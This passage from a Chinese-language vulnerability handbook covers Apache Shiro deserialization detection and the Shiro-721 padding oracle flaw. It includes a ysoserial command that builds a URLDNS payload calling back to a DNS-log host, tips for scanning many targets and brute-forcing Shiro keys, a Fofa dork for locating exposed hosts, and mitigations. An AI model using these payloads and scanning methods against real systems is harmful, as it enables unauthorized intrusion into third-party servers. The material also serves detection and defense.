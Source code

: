 2\. 使用 `URLDNS` 进行检测提速

使用适应性最强的`URLDNS`(这个不受 JDK 版本和安全策略影响, 除非网络限制不能出 DNS) 进行检测

且可以使用`ysoserial`提前生成序列化内容

`java -jar target/ysoserial-0.0.5-SNAPSHOT-all.jar URLDNS "http://1234567890.test.ceye.io" > urldns.ser`

然后使用`占位符+目标url hash`的方法修改序列化内容中的`urldns`地址

提高检测速度以及后续检测无需使用`ysoserial`

例如 `1234567890.test.ceye.io` 可以换成 `md5('www.qq.com').hexdigest() [:10].test.ceye.io`

也就是 `9d2c68d82d.test.ceye.io`

可以预先记录 hash

`9d2c68d82d www.qq.com`

然后进行 hash 查表就可以知道是`DNSLOG`来自哪个目标, 性能会提高不少

3\. 已知目标使用了`Shiro`, 可以采取`Shiro-721`的报错逻辑来进行遍历`key` — 星光哥

这样即使 DNS 不能出网, 也可以通过是否返回 `rememberMe=deleteMe` 来断定 `shiro` `key` 的正确性, 前提是服务器有`rememberMe=deleteMe`相关回显

**8\. 防护方法**

1\. 升级 Shiro 到最新版

2\. 升级对应 JDK 版本到 8u191/7u201/6u211/11.0.1 以上

3.WAF 拦截 Cookie 中长度过大的 rememberMe 值

Apache Shiro Padding Oracle Attack (Shiro-721)
----------------------------------------------

**1\. 漏洞简介**

Apache Shiro 是企业常见的 Java 安全框架, 由于`Shiro`使用`AES-CBC`模式进行加解密处理, 所以存在`Padding Oracle Attack`漏洞, 已经登录的攻击者同样可以进行反序列化操作

**2\. 影响组件**

Apache Shiro < 1.4.2

**3\. 漏洞指纹**

`set-Cookie: rememberMe=deleteMe`  
URL 中有 shiro 字样  
有一些时候服务器不会主动返回 `rememberMe=deleteMe`, 直接发包即可

**4\. Fofa Dork**

`app="Apache-Shiro"`

**5\. 漏洞分析**

Shiro 721 Padding Oracle 攻击漏洞分析 – 安全客, 安全资讯平台  
[https://www.anquanke.com/post/id/193165](https://www.anquanke.com/post/id/193165)
